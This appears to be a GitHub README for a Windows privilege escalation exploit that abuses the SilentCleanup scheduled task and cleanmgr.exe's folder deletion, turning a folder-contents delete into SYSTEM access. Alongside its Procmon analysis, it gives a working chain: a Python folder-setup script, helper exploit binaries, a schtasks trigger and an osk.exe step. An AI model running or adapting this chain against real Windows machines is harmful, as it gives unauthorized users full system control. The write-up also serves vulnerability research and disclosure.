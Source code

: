 # Windows Disk Cleanup Privilege Escalation Exploit

## Vulnerability Overview

The new version of `cleanmgr.exe` includes a call to the `SetProcessMitigationPolicy` function, which introduces security enhancements but can still be bypassed under specific conditions.

## Technical Analysis

### Mitigation Policy Implementation
```cpp
SetProcessMitigationPolicy(MitigationPolicy, 16);
```
With MitigationPolicy set to 16, this corresponds to ProcessRedirectionTrustPolicy, indicating that cleanmgr.exe has Redirection Guard enabled.

### Vulnerability Classification

This vulnerability relates to CWE-59: Improper Link Resolution Before File Access ('Link Following'), where the Redirection Guard can be bypassed through specific techniques.

### Research Background
Based on research from security researchers Simon Zuckerbraun and enigma0x3:

Simon Zuckerbraun: "From Arbitrary Folder Delete/Move/Rename to SYSTEM EoP"

enigma0x3: "Bypass UAC"

### Key Insight
The SilentCleanup task possesses sufficient privileges to delete the C:/Config.msi folder. The exploitation requires finding an Arbitrary Folder Delete/Move/Rename vulnerability within the SilentCleanup task, which runs cleanmgr.exe with "Run with highest privileges".

### Behavioral Analysis via Procmon
Initial Observations
When running the SilentCleanup task and monitoring cleanmgr.exe behavior:

<img width="1024" height="589" alt="image" src="https://github.com/user-attachments/assets/12affe8c-e75c-4852-a489-70fad29655ac" />


The process checks for the existence of specific folders:

Verifies if listed folders exist

Note: Does not verify if C:\ESD is a junction

Does check Windows and Download folders (though this aspect isn't deeply explored here)

Folder Structure Setup
Create the following folder structure using the python script provided:
```
C:\$Windows.~WS
C:\ESD\Windows
C:\ESD\Download
```

After populating these folders with dummy files and rerunning SilentCleanup:
<img width="824" height="126" alt="image" src="https://github.com/user-attachments/assets/cbeccd11-e255-4f48-a951-5f88a18c3bea" />

Observation: SilentCleanup deletes contents within the Windows and Download folders. This behavior can be leveraged using the "From Folder Contents Delete to SYSTEM EoP" technique.

### Exploitation Methodology
```
# Python script creates initial folder structure
import os

# Create required directories
folders = [
    r"C:\$Windows.~WS",
    r"C:\ESD\Windows", 
    r"C:\ESD\Download"
]

for folder in folders:
    os.makedirs(folder, exist_ok=True)
    
# Insert dummy files
for folder in folders[1:]:  # Skip the first folder
    with open(os.path.join(folder, "dummy.txt"), "w") as f:
        f.write("placeholder")
        
print("Setup complete - script paused")
# PAUSE FOR EXPLOIT SETUP
```
### Exploit Configuration
```
# Run FolderOrFileDeleteToSystem to setup Config.msi
FolderOrFileDeleteToSystem.exe

# Run FolderContentsDeleteToFolderDelete for redirection
FolderContentsDeleteToFolderDelete.exe
```

### Trigger Exploitation
```
# Resume the Python script to complete setup
# Run SilentCleanup to trigger content cleanup
schtasks /run /tn "\Microsoft\Windows\DiskCleanup\SilentCleanup"

# Final privilege escalation
osk.exe
# Then press Ctrl-Alt-Delete
```
<img width="1566" height="960" alt="image" src="https://github.com/user-attachments/assets/729433af-ad39-4aea-9183-bdc568f097bc" />
